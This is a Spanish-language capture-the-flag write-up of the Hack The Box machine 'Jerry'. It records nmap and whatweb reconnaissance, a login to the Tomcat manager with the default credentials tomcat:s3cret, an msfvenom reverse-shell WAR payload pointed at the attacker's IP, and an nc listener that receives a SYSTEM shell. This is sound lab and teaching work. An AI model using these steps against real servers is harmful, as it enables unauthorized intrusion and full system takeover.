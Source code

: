 ```yaml
---
title: Hack The Box Jerry
author: k4miyo
date: 2022-03-15
math: true
mermaid: true
image:
  path: /assets/images/htb/hackthebox.png
categories: [Easy, Windows]
tags: [Arbitrary File Upload, File Misconfiguration]
ping: true
---
```


## Jerry
Se procede con la fase de reconocimiento lanzando primeramente un `ping` a la dirección IP 10.10.10.95.

```bash
❯ ping -c 1 10.10.10.95
PING 10.10.10.95 (10.10.10.95) 56(84) bytes of data.
64 bytes from 10.10.10.95: icmp_seq=1 ttl=127 time=138 ms

--- 10.10.10.95 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 137.931/137.931/137.931/0.000 ms
```

De acuerdo con el TTL de traza ICMP, se puede determinar que se trata de una máquina con sistema operativo Windows. A continuación se procede con la ejecución de `nmap` para determinar los puertos abiertos de la máquina y exportanto la información al archivo **allPorts**.

```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.95 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-13 21:14 CST
Initiating SYN Stealth Scan at 21:14
Scanning 10.10.10.95 [65535 ports]
Discovered open port 8080/tcp on 10.10.10.95
Completed SYN Stealth Scan at 21:15, 26.50s elapsed (65535 total ports)
Nmap scan report for 10.10.10.95
Host is up, received user-set (0.14s latency).
Scanned at 2022-03-13 21:14:52 CST for 27s
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.58 seconds
           Raw packets sent: 131088 (5.768MB) | Rcvd: 19 (836B)
```

Mediante la función [extractPorts](/posts/extractPorts) definida a nivel de `zsh` , se obtiene la información más relevante de la captura grepeable.

```bash
❯ extractPorts allPorts
───────┬─────────────────────────────────────
       │ File: extractPorts.tmp
       │ Size: 115 B
───────┼─────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.10.95
   5   │     [*] Open ports: 8080
   6   │ 
   7   │ [*] Ports copied to clipboard
```

A continuación se lanza una serie de scripts para determinar el servicio y versión que corren para los puertos detectados.

```bash
❯ nmap -sCV -p8080 10.10.10.95 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-13 21:16 CST
Nmap scan report for 10.10.10.95
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.72 seconds
```

Vemos que se encuentra abierto el puerto 8080 y como siempre, antes de visualizar el contenido vía web, vamos a utilizar la herramienta `whatweb` para ver a lo que nos enfrentamos.

```bash
❯ whatweb http://10.10.10.95:8080
http://10.10.10.95:8080 [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache-Coyote/1.1], IP[10.10.10.95], Title[Apache Tomcat/7.0.88]
```

Vemos que nos enfrentamos antes un Apache Tomcat, lo cual lo validamos vía web.

![""](/assets/images/htb-jerry/jerry-web.png)

Vamos a ver si se puede acceder al recurso `/manager/html` y hacer uso de las credenciales por defect **tomcat : s3cret**:

![""](/assets/images/htb-jerry/jerry-web1.png)

![""](/assets/images/htb-jerry/jerry-web2.png)

Ya nos encontramos dentro del Gestor de Aplicaciones Web de Tomcat, por lo tanto, ya debemos estar pensando en generar un archivo de extensión **war** para subirlo y obtener acceso al sistema.

```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.27 LPORT=443 -f war > shell.war
Payload size: 1103 bytes
Final size of war file: 1103 bytes

❯ ll
.rw-r--r-- root root 1.1 KB Tue Mar 15 01:41:14 2022  shell.war
❯ cp shell.war /home/k4miyo/Descargas/Firefox/.
```

Subimos nuestro archivo al servidor:

![""](/assets/images/htb-jerry/jerry-web3.png)

Nos ponemos en escucha por el puerto 443 y ahora seleccionamos nuestro archivo.

![""](/assets/images/htb-jerry/jerry-web4.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```

Ya hemos ingresado a la máquina como `nt authority\system` y podemos visualizar las flags (user.txt y root.txt).
